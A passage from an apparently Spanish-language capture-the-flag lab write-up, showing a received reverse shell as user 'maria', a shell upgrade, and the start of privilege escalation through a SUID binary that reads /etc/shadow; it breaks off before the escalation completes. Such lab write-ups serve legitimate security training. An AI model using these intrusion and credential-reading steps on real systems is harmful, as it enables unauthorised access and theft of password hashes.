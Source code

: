 ![](assets/img/thl-writeup-offensive/offensive4_2.png)

```terminal
	... connect to [192.168.0.171] from (UNKNOWN) [192.168.0.38] 56364
id
uid=1001(maria) gid=1001(maria) grupos=1001(maria)

script /dev/null -c bash

maria@TheHackersLabs-Offensive:~$ cat /home/maria/user.txt
```

---
## Privilege Escalation

Verifico que en el directorio del usuario `maria` existe una aplicación denominada `app` que se ejecuta con permisos SUID, lo que me permite ejecutar comandos como `root`. Al ejecutar el binario, este muestra únicamente las primeras líneas del archivo `/etc/shadow` en lugar de mostrarlo completo.

```terminal
maria@TheHackersLabs-Offensive:~$ ls -al app
-rwsr-xr-x 1 root root 16056 dic 26 10:22 app

maria@TheHackersLabs-Offensive:~$ ./app
```
